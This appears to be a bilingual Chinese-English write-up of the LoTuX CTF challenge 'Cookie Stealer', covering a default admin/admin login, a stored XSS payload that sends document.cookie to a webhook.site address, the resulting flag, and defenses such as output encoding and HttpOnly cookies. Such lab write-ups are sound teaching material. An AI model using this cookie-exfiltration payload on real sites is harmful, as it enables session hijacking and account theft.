 # Cookie Stealer

Author: 孫逸平

Date: 2024-05-24

Link: https://lotuxctf.com/challenges#Cookie%20Stealer-41

## 題目說明

我要製作一個網站偷走所有人的餅乾！

I will make a website to steal everyone's cookie!


Author：FlyDragon
http://lotuxctf.com:20005

> **Hint1:**
>
> "Share to admin" 指的是 admin 會拜訪你的網頁。
>
> "Share to admin" implies that the admin will visit your page.

> **Hint2:**
>
> The flag is admin's cookie

## Write-up

1. 利用帳號：`admin`，密碼：`admin` 登入。
2. 任意撰寫內文發送後猜測為 XSS 漏洞。
3. 利用 webhook.site 擷取 Cookie：
    ```javascript
    <img src=x onerror="fetch('https://webhook.site/YourWebhookLink/?cookie='+document.cookie)"/>
    ```
4. 在 webhook.site 中，得到 flag：`LoTuX{XSS_ch4ll3nGe_For_8abYs}`。

## 防護說明與建議

### 本題 CWE

* CWE-79: Improper Neutralization of Input During Web Page Generation ('Cross-site Scripting')

### 建議防護與修補

* 輸出編碼
* Cookie 設為 HttpOnly

## 心得

這題原本在 HTML 標籤中相加字串，後來發現不能這麼做，所以只好用 JavaScript 去寫。
